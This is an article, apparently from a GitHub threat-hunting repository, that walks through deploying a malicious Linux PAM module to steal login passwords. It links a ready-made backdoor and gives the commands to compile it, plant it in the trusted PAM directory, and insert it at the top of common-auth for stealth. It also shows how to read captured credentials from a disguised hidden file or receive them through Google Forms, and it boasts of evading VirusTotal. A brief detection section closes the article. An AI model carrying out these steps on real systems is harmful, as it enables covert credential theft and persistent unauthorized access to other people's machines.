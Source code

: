 #### Disclaimer

_This article is intended for educational and awareness purposes only. The techniques demonstrated are for understanding security risks and improving defenses. Unauthorized use or replication of these methods for malicious activities is strictly prohibited and may be illegal. Always obtain proper authorization before testing or simulating attacks on any systems. The author is not responsible for any misuse, damage, or illegal activities resulting from applying the techniques discussed._

### Background  
PAM modules are dynamically loaded components that handle authentication on Linux systems. Attackers can exploit this by installing malicious modules and modifying PAM’s configuration to load them during login. This allows the attacker to secretly capture user credentials whenever authentication occurs, making it a powerful vector for persistent access and data theft  

Note: This was tested on Debian-based systems. The provided steps are specifically tailored for Debian/Ubuntu environments. For Fedora or Red Hat systems, just update the library and configuration file paths—the module code remains the same.  
#### How the backdoor works?
The malicious code hooks into _pam_sm_authenticate()_, capturing the username via _pam_get_user()_ and the password via _pam_get_authtok()_ before silently logging or exfiltrating them. Meanwhile, _pam_sm_setcred()_ completes the authentication process to avoid detection.

I’ve uploaded code for two Linux PAM modules: one logs credentials to disk (already compiled), and the other exfiltrates to Google Forms (requires updating values before compiling). Download [here](https://github.com/le0li9ht/ThreatHunting/blob/main/Linux/PAM/StealingCredentials/pam_backdoor_lab.zip)  
##### Code files

```
pam_backdoor_lab.zip
│
├── pam_backdoor_disklog/
│   ├── pam_backdoor.c
|   ├── pam_backdoor.so
└── pam_backdoor_googleform/
    ├── pam_backdoor.c
```

For the first, just copy the compiled module to the shared library location.  I have not compiled the second module yet because it requires updating the Google Form URL(as shown in below image) and entry values in the source code. Once those are set, you can compile and deploy the module.    

![image](https://github.com/user-attachments/assets/e5021065-7e31-4744-804d-8bf18cf60bcf)  

At the time of writing, this module was not flagged as malicious by VirusTotal, highlighting how such techniques can easily evade standard detection mechanisms.  
![2025-06-08_01-42](https://github.com/user-attachments/assets/2a19e69b-50cc-4979-a96d-056d352f846b)  
https://www.virustotal.com/gui/file/c7022836a3f92a6589df7cce99ee3db69ce0a98a7c266ba90a8ec5e37227329e?nocache=1   

#### Step 1: Install Development Package for PAM Modules    
You need to install libpam0g-dev because it provides the header files and libraries required to compile custom PAM modules  
```
sudo apt update  
sudo apt install libpam0g-dev  
```  
#### Step 2: Compile the Backdoor PAM Module  
```
gcc -fPIC -fno-stack-protector -c pam_backdoor.c  
ld -x --shared -o pam_backdoor.so pam_backdoor.o
```
#### Step3: Deploy the Backdoor Module into PAM's Trusted Directory  
Copy the backdoor module to /lib/x86_64-linux-gnu/security/ because it’s the default trusted location for PAM modules, ensuring it’s automatically loaded by all PAM-aware services and stays hidden among legitimate system files for better stealth and persistence.   
```
sudo cp pam_backdoor.so /lib/x86_64-linux-gnu/security/
```      
Modify the _common-auth_ file under _/etc/pam.d_ , which handles authentication, by inserting the backdoor module at the top of the PAM authentication stack. This ensures it executes first during all authentication requests, allowing the backdoor to intercept credentials stealthily and persistently across system login processes.  
```
sed -i '1i auth required pam_backdoor.so' /etc/pam.d/common-auth
```   

#### Step4: Test the Backdoor Module 
Perform any authentication action like `sudo`, `su`, `su -`, or SSH logins. The backdoor will capture and log all credentials during these authentications.
```
sudo su
su -
ssh user@ip
```

- **If using the disk-logging module:**  
All captured credentials are saved to a hidden, seemingly legitimate file on disk named /tmp/.X11-unixs. To view the stolen creds, run:   
```
cat /tmp/.X11-unixs
```
![2025-06-08_01-34](https://github.com/user-attachments/assets/63e2bfb4-5833-44b1-bce3-e8afeb6fe1ce)


- **If using the Google Forms exfiltration module:**
Credentials are sent silently to your configured Google Form. Check your Google Form responses to verify captured data as shown.
![2025-06-08_00-54_1](https://github.com/user-attachments/assets/ae275802-ce96-4481-9354-c30fae9c7e56)   
![2025-06-08_00-54](https://github.com/user-attachments/assets/8d773b2c-7369-4e9e-af75-7961f9da1fef)
Exfiltrated credentials on google form.
  
#### Detection. 
Always monitor the directories where PAM modules are loaded—such as /etc/pam.d/ and /lib/security/  /lib/x86_64-linux-gnu/security/  —using File Integrity Monitoring (FIM) to detect unauthorized changes.  

Elastic has written a nicr detection rule for the same [persistence_pluggable_authentication_module_creation](https://github.com/elastic/detection-rules/blob/ac541f0b18697e053b3b56544052955d29b440c0/rules/linux/persistence_pluggable_authentication_module_creation.toml)  
##### MITRE. 
[T1556.003 - Pluggable Authentication Modules: Malicious PAM](https://attack.mitre.org/techniques/T1556/003/)  


